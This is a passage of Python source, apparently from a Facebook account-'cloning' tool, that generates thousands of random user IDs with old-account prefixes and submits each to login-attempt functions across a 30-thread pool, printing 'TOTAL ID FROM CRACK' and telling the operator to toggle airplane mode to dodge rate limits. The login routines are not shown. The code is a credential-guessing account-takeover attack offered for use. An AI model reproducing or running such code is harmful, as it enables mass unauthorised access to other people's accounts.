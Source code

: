 ‎    print(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;49mOld Code {Y}:{G} 2010-2014")
‎    ask = input(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;41mSELECT {Y}:{G} ")
‎    linex()
‎    ____banner____()
‎    print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m>\x1b[38;5;196m×\x1b[1;37m<\x1b[38;5;46mEXAMPLE {Y}:{G} 20000 / 30000 / 99999")
‎    limit = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m>\x1b[38;5;196m×\x1b[1;37m<\x1b[38;5;46mSELECT {Y}:{G} ")
‎    linex()
‎    star = '10000'
‎    for _ in range(int(limit)):
‎        data = str(random.choice(range(1000000000, 1999999999 if ask == '1' else 4999999999)))
‎        user.append(data)
‎    print('        \x1b[38;5;196m(\x1b[1;37mA\x1b[38;5;196m)\x1b[1;37m>\x1b[38;5;196m×\x1b[1;37m<\x1b[38;5;46mMETHOD 1')
‎    print('       \x1b[38;5;196m(\x1b[1;37mB\x1b[38;5;196m)\x1b[1;37m>\x1b[38;5;196m×\x1b[1;37m<\x1b[38;5;46mMETHOD 2')
‎    linex()
‎    meth = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m>\x1b[38;5;196m×\x1b[1;37m<\x1b[38;5;46mCHOICE {W}(A/B): {Y}").strip().upper()
‎    with tred(max_workers=30) as pool:
‎        ____banner____()
‎        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m>\x1b[38;5;196m×\x1b[1;37m<\x1b[38;5;46mTOTAL ID FROM CRACK {Y}: {G} {limit}{W}")
‎        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m>\x1b[38;5;196m×\x1b[1;37m<\x1b[38;5;46mUSE AIRPLANE MOD FOR GOOD RESULT{G}")
‎        linex()
‎        for mal in user:
‎            uid = star + mal
‎            if meth == 'A':
‎                pool.submit(login_1, uid)
‎            elif meth == 'B':
‎                pool.submit(login_2, uid)
‎            else:
‎                print(f"    {rad}[!] INVALID METHOD SELECTED")
‎                break
‎
‎
‎def old_Tow():
‎    """
‎    Cloning method for accounts with specific prefixes.
‎    """
‎    user = []
‎    ____banner____()
‎    print(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mOLD CODE {Y}:{G} 2010-2014")
‎    ask = input(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mSELECT {Y}:{G} ")
‎    linex()
‎    ____banner____()
‎    print(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mEXAMPLE {Y}:{G} 20000 / 30000 / 99999")
‎    limit = input(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mSELECT {Y}:{G} ")
‎    linex()
‎    prefixes = ['100003', '100004']
‎    for _ in range(int(limit)):
‎        prefix = random.choice(prefixes)
‎        suffix = ''.join(random.choices('0123456789', k=9))
‎        uid = prefix + suffix
‎        user.append(uid)